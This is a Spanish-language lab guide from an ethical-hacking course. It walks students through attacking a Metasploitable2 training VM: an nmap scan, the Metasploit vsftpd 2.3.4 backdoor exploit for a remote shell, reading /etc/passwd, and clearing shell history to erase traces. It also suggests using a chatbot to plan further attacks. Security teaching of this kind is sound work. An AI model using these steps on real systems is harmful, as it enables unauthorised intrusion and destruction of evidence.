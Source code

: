 # Laboratorio Semama 9 - Explotación de Vulnerabilidades con Metasploit y KaliGPT (CY-203 Hackeo Ético)

**Duración estimada:** 2.5 horas  
**Modalidad:** Práctica guiada en Kali Linux  
**Objetivo:** Aplicar técnicas de explotación de vulnerabilidades utilizando **Metasploit Framework**, analizar cargas (payloads), automatizar ataques y utilizar inteligencia artificial (**KaliGPT**) como apoyo para decisiones estratégicas.

---

## Introducción

Durante este laboratorio nos enfocaremos en la **fase de ataque** en el ciclo de hacking ético. Aprovecharemos vulnerabilidades detectadas previamente para **obtener acceso, control o extraer información** del sistema objetivo.

Utilizaremos **Metasploit**, un framework de explotación profesional y gratuito ampliamente utilizado por auditores de seguridad, y complementaremos la estrategia con **KaliGPT** para guiar y afinar el ataque. El entorno objetivo será la máquina **Metasploitable2**, desplegada como máquina virtual (VM) en VirtualBox o VMware.

### Conceptos básicos de Metasploit

- **RHOSTS**: Dirección IP del objetivo (por ejemplo, `192.168.50.110`)
- **RPORT**: Puerto en el que corre el servicio vulnerable (por ejemplo, `21` para FTP)
- **LHOST**: Dirección IP del atacante (la IP de Kali Linux)
- **LPORT**: Puerto local que usará el atacante para recibir la conexión reversa (por ejemplo, `4444`)
- **PAYLOAD**: Código que se ejecutará en la máquina víctima una vez explotada (por ejemplo, una shell reversa)
- **Exploit**: Código que aprovecha una vulnerabilidad
- **Session**: Conexión activa con la máquina víctima obtenida luego del exploit

---

## Parte 0: Preparación del Entorno con Metasploitable2 en VM

### 0.1 Requisitos previos

- VirtualBox o VMware instalado
- Kali Linux operativo (como host o VM)
- Archivo `.vmdk` o `.ova` de Metasploitable2

### 0.2 Descargar Metasploitable2

Descarga desde:
- https://sourceforge.net/projects/metasploitable/files/Metasploitable2/

Descomprime el archivo `.zip` para obtener el `.vmdk`.

### 0.3 Crear VM en VirtualBox

1. Abrir VirtualBox y crear nueva VM:
   - Tipo: **Linux**
   - Versión: **Ubuntu (32-bit)**
2. Asignar 1 GB de RAM mínimo
3. Seleccionar disco existente → cargar el `.vmdk`
4. Configurar red en **Adaptador Puente** o **Red Interna**

### 0.4 Iniciar y obtener IP de la VM

Usuario: `msfadmin`  
Contraseña: `msfadmin`

Ejecutar:
```bash
ifconfig
```
Anota la IP, por ejemplo: `192.168.50.110`

---

## Parte 1: Verificación de Metasploit Framework

En Kali Linux ya viene preinstalado:

```bash
msfconsole
```

Si no carga, ejecutar:

```bash
sudo systemctl start postgresql
msfdb init
```

---

## Parte 2: Reconocimiento con Nmap

Desde Kali escanea:

```bash
nmap -sV -p- 192.168.50.110
```

Ejemplo de servicios detectados:
- FTP (21)
- SSH (22)
- Telnet (23)
- HTTP (80)
- MySQL (3306)
- Apache Tomcat, Samba, etc.

---

## Parte 3: Ejecución de Exploits con Metasploit

### 3.1 Exploit: FTP vsftpd 2.3.4 backdoor

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <IP del VM Objetivo>
set RPORT 21
run
```

Si es exitoso, se abrirá una shell remota.

Verifica shell:
```bash
whoami
id
uname -a
```

---

## Parte 4: Post-Explotación

Una vez obtenida la shell, ejecuta:

```bash
id
hostname
cat /etc/passwd
```

---

## Parte 5: Eliminación de Rastros (simulado)

```bash
history -c
rm ~/.bash_history
```

> Esto es con fines educativos y no debe realizarse sin permisos.

---

## Refuerzo con KaliGPT

Usa: [https://chatgpt.com/g/g-uRhIB5ire-kali-gpt](https://chatgpt.com/g/g-uRhIB5ire-kali-gpt)

Ejemplos:
```text
¿Qué otros exploits puedo usar en Metasploitable2?
¿Cómo automatizo la explotación de Apache?
```

---

## Entregables

- Captura de `msfconsole` con exploit exitoso diferente al efectuado en este laboratorio
- Captura de `whoami` o `id`
- Evidencia del uso de KaliGPT
- Reflexión: ¿Qué aprendiste del uso de Metasploitable2?

---

## Recursos

- [https://sourceforge.net/projects/metasploitable/](https://sourceforge.net/projects/metasploitable/)
- [https://docs.rapid7.com/metasploit/](https://docs.rapid7.com/metasploit/)
- [https://chatgpt.com/g/g-uRhIB5ire-kali-gpt](https://chatgpt.com/g/g-uRhIB5ire-kali-gpt)

---

**Profesor:** Esteban Mata Morales  
**Curso:** CY-203 Hackeo Ético  
**Universidad Fidélitas de Costa Rica**
